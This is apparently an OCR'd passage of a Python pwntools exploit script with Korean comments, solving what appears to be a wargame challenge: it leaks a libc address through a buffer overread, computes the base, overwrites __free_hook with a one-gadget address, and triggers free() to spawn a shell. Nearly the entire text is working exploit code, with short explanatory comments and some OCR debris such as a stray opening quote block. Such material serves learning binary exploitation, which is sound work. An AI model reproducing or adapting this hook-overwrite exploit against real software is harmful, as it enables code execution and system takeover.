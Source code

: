 ``` python
'''
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
# 또는 libc_base = libc_start_main_xx - libc.libc_start_main_return
free_hook = libc_base + libc.symbols['__free_hook']
og = libc_base+0x4f432

slog('libc_base', libc_base)
slog('free_hook', free_hook)
slog('one-gadget', og)

# [2] Overwrite `free_hook` with `og`, one-gadget address
'''
바이너리가 To write:라고 물어보면, 몇 번지에 쓸지를 물어보는 것. → __free_hook 주소 전달.
With: 라고 물어보면, 그 위치에 쓸 값을 입력. → one-gadget 주소 전달.
즉, __free_hook → one-gadget 덮어쓰기.
'''
p.recvuntil('To write: ')
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(og).encode())

# [3] Exploit
'''
바이너리가 free()를 실행하는 타이밍에서 입력을 받아 free() 실행 → 실제로는 __free_hook 호출.
우리가 덮어놓은 값(one-gadget)이 실행됨 → 쉘 획득.어
왜 0x31337 인가?
    사실 아무 값이나 넣어도 된다.
    이미 free_hook을 og로 덮어놨기 때문에 free 자체가 exploit trigger 가 되는 것이다.
    31337 -> "eleet(엘리트)" 해커 은
'''
p.recvuntil('To free: ')
p.sendline(str(0x31337).encode())

p.interactive()
```